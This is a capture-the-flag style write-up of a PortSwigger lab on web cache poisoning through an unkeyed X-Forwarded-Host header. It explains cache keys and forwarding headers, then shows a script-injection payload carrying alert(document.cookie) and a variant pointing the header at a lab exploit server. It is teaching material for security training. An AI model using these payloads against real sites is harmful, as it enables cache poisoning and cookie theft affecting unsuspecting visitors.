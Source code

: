 # Web cache poisoning with an unkeyed header
# Objective
This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

# Solution
## Analysis
> Caches identify equivalent requests by comparing a predefined subset of the request's components, known collectively as the "cache key". Typically, this would contain the **request line** and **Host header**. Components of the request that are not included in the cache key are said to be "unkeyed".\
> \
> Source: [PortSwigger - Cache keys information](https://portswigger.net/web-security/web-cache-poisoning)

The header value is unkeyed and is reflected to user.
|![](Images/image.png)|
|:--:| 
| *Normal request* |
|![](Images/image-1.png)|
| *Request with extra header* |

### Cache headers explaination
```
Cache-Control: max-age=30   --> Response is cached for 30s
Age: 2                      --> Cached response is 2s old
X-Cache: hit                --> Response comes from cache
X-Cache: miss               --> Response does not come from cache
```

### X-Forwarded-* headers explaination
```
X-Forwarded-For     --> Tracks the original client IP address and the IP addresses of any intermediate proxies.
X-Forwarded-Host    --> Maintains the original host requested by the client.
X-Forwarded-Port    --> Specifies the port number used by the client to connect to the proxy.
X-Forwarded-Proto   --> Indicates the protocol (HTTP or HTTPS) used by the client.
X-Forwarded-Scheme  --> Indicates the protocol (HTTP or HTTPS) used by the client.
```

Examle:
```
GET /path/to/resource HTTP/1.1
Host: proxy.example-proxy.com
X-Forwarded-Host: example.com
X-Forwarded-For: 69.69.69.69
X-Forwarded-Proto: https
X-Forwarded-Scheme: https
```

The `X-Forwarded-Proto` header is essentially the same as `X-Forwarded-Scheme` and serves the same purpose. However, `X-Forwarded-Proto` is more commonly used and widely recognized.

## Exploitation
### Poisoning without using exploit server
Paylaod (extra header):
```
X-Forwarded-Host: testtest"></script><script>alert(document.cookie)//
```

|![](Images/image-2.png)|
|:--:| 
| *Web cache poisoning* |

### Poisoning using exploit server
Paylaod (extra header):
```
X-Forwarded-Host: exploit-0a65007d038337e3830468450117007e.exploit-server.net
```

|![](Images/image-4.png)|
|:--:| 
| *Exploit server configuration* |
|![](Images/image-3.png)|
| *Web cache poisoning* |
|![](Images/image-5.png)|
| *Result* |

